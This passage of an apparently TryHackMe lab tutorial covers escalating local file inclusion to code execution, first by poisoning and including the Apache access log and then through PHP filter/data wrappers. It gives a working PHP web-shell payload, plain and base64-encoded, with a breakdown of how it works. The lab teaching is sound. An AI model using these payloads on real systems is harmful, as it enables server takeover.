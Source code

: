 ```php
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.172.219.eu-west-1.compute.internal Port 80</address>
</body></html>
```

The code will then be logged in the server's access logs.

![Apache access log containing the injected PHP code](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d9c19f6c916c790bb4fa94e09a5fcaef.png)  

The attacker then usesÂ LFIÂ to include the access log file:Â `?page=/var/log/apache2/access.log`

![Injected PHP code in the web access log has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/f4a675e26aac4f257dfd24942bcdbd0f.png)


# LFI2RCE - Wrappers
----

#### PHPÂ Wrappers

PHPÂ wrappers can also be used not only for reading files but also for code execution.Â The key here is theÂ `php://filter`Â stream wrapper, which enables file transformations on the fly.Â Take theÂ PHPÂ base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload.Â 

For example, go toÂ [http://10.10.172.219/playground.php](http://10.10.172.219/playground.php)[](http://10.10.172.219/playground.php).

We will use theÂ PHPÂ codeÂ `<?php system($_GET['cmd']); echo 'Shell done!'; ?>`Â as our payload. The value of the payload, when encoded to base64, will beÂ `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

|   |   |   |
|---|---|---|
|**Position**|**Field**|**Value**|
|1|Protocol Wrapper|php://filter|
|2|Filter|convert.base64-decode|
|3|Resource Type|resource=|
|4|Data Type|data://plain/text,|
|5|Encoded Payload|PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+|

In the table above,Â `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`Â is the base64-encoded version of theÂ PHPÂ code.Â When the server processes this request, it first decodes the base64 string and then executes theÂ PHPÂ code, allowing the attacker to run commands on the server via the "cmd" GET parameter.  

![Vulnerable application containing the PHP wrapper payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0e01212213a4a512d552b55d22b7014d.png)

**Note:**Â It is important to not include theÂ **&cmd=whoami**Â in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you anÂ invalid byte sequence error.
